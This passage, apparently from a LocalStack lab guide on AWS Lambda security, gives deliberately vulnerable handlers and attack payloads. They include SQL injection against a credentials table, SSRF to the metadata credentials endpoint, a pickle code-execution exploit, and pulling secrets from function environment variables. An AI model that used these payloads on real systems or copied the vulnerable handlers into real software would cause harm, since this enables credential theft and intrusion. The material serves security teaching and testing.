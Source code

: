 Exploitation:
```python
# From within Lambda
import boto3
iam = boto3.client('iam', endpoint_url='http://localhost:4566')
# List all secrets
iam.list_users()
iam.list_roles()
```

### 3. Secrets in Environment Variables
```bash
# Deploy function with secrets
aws lambda create-function \
  --function-name vulnerable \
  --environment Variables={DB_PASSWORD=secret123,API_KEY=abc123} \
  --endpoint-url http://localhost:4566

# Extract from Lambda
aws lambda get-function-configuration \
  --function-name vulnerable \
  --endpoint-url http://localhost:4566
```

### 4. SQL Injection in Lambda
```python
def handler(event, context):
    user_id = event['userId']
    # Vulnerable query
    query = f"SELECT * FROM users WHERE id = {user_id}"
    
# Attack
{
  "userId": "1 OR 1=1 UNION SELECT * FROM credentials--"
}
```

### 5. Server-Side Request Forgery (SSRF)
```python
def handler(event, context):
    url = event['url']
    # No validation
    response = requests.get(url)
    
# Attack - Access metadata service
{
  "url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
}
```

### 6. Insecure Deserialization
```python
import pickle
def handler(event, context):
    # Deserialize user input
    data = pickle.loads(base64.b64decode(event['data']))
    
# Attack - Execute code via pickle
import pickle, base64, os
class Exploit:
    def __reduce__(self):
        return (os.system, ('cat /tmp/* > /tmp/leak',))
        
payload = base64.b64encode(pickle.dumps(Exploit())).decode()
```